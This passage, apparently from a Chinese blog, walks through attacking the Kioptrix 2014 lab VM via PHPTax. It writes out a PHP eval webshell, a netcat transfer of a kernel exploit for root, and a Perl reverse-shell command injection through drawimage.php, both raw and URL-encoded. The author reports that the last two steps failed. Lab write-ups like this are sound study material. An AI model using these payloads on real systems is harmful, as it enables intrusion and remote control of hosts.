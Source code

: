 成功！这样一来就好办了，写一个一句话木马，然后连接：

```php
http://192.168.244.144:8080/phptax/index.php?field=rce.php&newvalue=<?php @eval($_POST['hack']);?>
```

蚁剑连接一下：

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202401292217189.png" alt="image-20240129205132178" style="zoom:33%;" />

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202401292217190.png" alt="image-20240129205147206" style="zoom:50%;" />

拿到普通用户权限了，尝试使用内核漏洞进行提权，不过我们可以保险起见，再查一下内核版本对不对：

```shell
(www:/usr/local/www/apache22/data2/phptax/data) $ uname -a
FreeBSD kioptrix2014 9.0-RELEASE FreeBSD 9.0-RELEASE #0: Tue Jan  3 07:46:30 UTC 2012     root@farrell.cse.buffalo.edu:/usr/obj/usr/src/sys/GENERIC  amd64
```

进行提权：

```shell
# Server 
cd /tmp
nc 192.168.244.133 1234 > 26368.c
# Client
nc -lvp 1234 < 26368.c 
```

监听会中断，但是已经传过去了。

编译运行即可获得 root 权限，但是我这里不知道为啥一直不行。。。。

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202401292217191.png" alt="image-20240129213322195" style="zoom:50%;" />

就到这吧，`metasploit`也尝试了，死都搞不好，可恶，难道又犯低级错误了？

## 重启靶场，全部推到重来

因为是重新来，我就不说了，仅展示关键代码及结果是否正确：

```perl
/phptax/drawimage.php?pfilez=xxx;%20perl -e 'use Socket;$i="192.168.244.144";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/bash -i");};';&pdf=make
# URL编码
/phptax/drawimage.php?pfilez=xxx;%20perl%20-e%20%27use%20Socket%3B%24i%3D%22192.168.244.144%22%3B%24p%3D1234%3Bsocket%28S%2CPF_INET%2CSOCK_STREAM%2Cgetprotobyname%28%22tcp%22%29%29%3Bif%28connect%28S%2Csockaddr_in%28%24p%2Cinet_aton%28%24i%29%29%29%29%7Bopen%28STDIN%2C%22%3E%26S%22%29%3Bopen%28STDOUT%2C%22%3E%26S%22%29%3Bopen%28STDERR%2C%22%3E%26S%22%29%3Bexec%28%22/bin/bash%20-i%22%29%3B%7D%3B';&pdf=make
```

经过尝试，失败，不知道是啥原因，下回再试吧，有其他事情要忙了，害。



